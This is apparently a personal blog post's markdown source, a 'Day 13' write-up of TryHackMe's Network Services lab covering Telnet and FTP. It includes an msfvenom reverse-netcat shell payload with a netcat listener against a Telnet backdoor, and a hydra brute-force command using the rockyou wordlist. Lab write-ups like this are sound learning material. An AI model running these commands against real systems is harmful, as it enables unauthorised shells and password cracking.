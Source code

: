 ```yaml
---
title: Day 13
date: 2022-04-26
layout: post.njk
tags: daily
---
```


{{ page.date.toDateString }}

Today I'm starting on the Telnet section of the [Network Services Module](https://tryhackme.com/room/networkservices). I know Telnet is pretty old and not used often, but I always think knowing more is better than knowing less.


Just like I thought:
>"Telnet sends all messages in clear text and has no specific security mechanisms. Thus, in many applications and services, Telnet has been replaced by SSH in most implementations."

I ran an Nmap scan against the target, but got no open ports up when I just ran `nmap -sS <IP>`. It ran it against the first 100 ports so I bumped it to 10000 and got one: `Port 8012`. Service is unknown.

When I telnet to it I get the message:
> "SKIDY'S BACKDOOR"
But it doesn't appear that I can run any commands.

I followed the instructions to set up the `tcpdump` on the attack box via: `sudo tcpdump ip proto \\icmp -i eth0`. This essentially is saying listen for ping requests on the eth0 interface.

I then was able to run a ping on the connected host using the `.RUN` command: `.RUN ping <ip> -c 1` and I received the ping request. This means I can execute commands on the remote system.

I then used `msfvenom` to create a specific payload to get a shell on the remote machine. `msfvenom -p cmd/unix/reverse_netcat lhost=<ip> lport=4444 R`. The payload creates a Netcat connection back to your local machine so I just needed to set up a Netcat listener locally on the port I specified in the MSFVenom command. `nc -lvp 4444`

After running that I run the payload on the remote machine and I got a connection back! a simple ls revealed `flag.txt`.

Lastly, I moved onto the FTP section. The enumeration was pretty simple I ran `nmap -sT <ip>` and it came back with two ports. There was a web server on port 80 and ftp running on 21. I ran `nmap -sV <ip> -p 21` to get more info on the FTP service. I was then able to login anonymously: `username: anonymous, password: <blank>` There was a file in there signed by Mike.

To get in I used hydra to brute force the password while guessing that there is a username `mike`. The command was: `hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt -vV <ip> ftp`

Hydra was able to brute force the password and gave me a password of...`password`. I was then able to login via ftp using that username and password to retrieve the flag.


This was a good module and I enjoyed getting to do some exploitation. Looking forward to [Network Services 2](https://tryhackme.com/room/networkservices2) tomorrow!

